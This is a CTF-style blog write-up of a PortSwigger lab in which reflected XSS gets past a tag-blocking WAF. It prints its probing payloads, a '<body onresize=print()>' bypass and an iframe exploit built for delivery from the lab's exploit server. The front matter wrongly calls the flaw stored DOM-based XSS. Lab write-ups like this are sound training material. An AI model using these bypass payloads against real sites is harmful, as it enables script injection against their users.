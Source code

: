 ```yaml
---
author: Nithissh S
pubDatetime: 2024-03-28
modDatetime: 2024-03-28
title: Reflected XSS into HTML context with most tags and attributes blocked
slug: reflected-xss-into-html-context-with-most-tags-and-attributes-blocked
featured: false
draft: false
tags:
  - XSS
  - Burp Certified Practitioner
description:
  In our exploration of the application's search functionality, we encountered tag restrictions while attempting to inject <img> elements. Leveraging the <body> tag with an onresize attribute helped bypass these restrictions. Crafting a payload suitable for delivery via the exploit server, we ensured successful execution, ultimately solving the lab by exploiting the stored DOM-based XSS vulnerability.
---
```


# Intro 

This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors

## Solution

In the search functionality of this application, I've entered the following payload `test"><h2>XSS` to check on how the application evaluting the input and the `<h2>` got executed in a newline 

![](../../assets/images/portswigger/XSS/apprentice/xss-48.png)


When entering the complete payload like `test"><img src=x onerror=alert(1)>` in the search functionality and responded with **"No Tags allowed"**

![](../../assets/images/portswigger/XSS/apprentice/xss-49.png)


Now I assume that the `<img>` tag is blocked what's the other alternative like I remember we have a `<body>` tag and with the following payload `<body onerror=alert(1) onload=/>` we have bypassed the tag error but we do have a attribute error now 


![](../../assets/images/portswigger/XSS/apprentice/xss-50.png)


In our case, `onerror` is the attribute and in order to solve it completely with the following payload `"><body onresize=print()>` the request responds with a 200 status code 

![](../../assets/images/portswigger/XSS/apprentice/xss-51.png)


The payload is working right ?, Now let's create a payload which is deliverable to the victim through the exploit server 

**Payload to deliver to victim**

```
<iframe src="https://0ae50081041cae9b809249b1001d0007.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

Put the following payload into the exploit server in the body data and click on store and then deliver the exploit to the client.. Now the lab will be solved


![](../../assets/images/portswigger/XSS/apprentice/xss-52.png)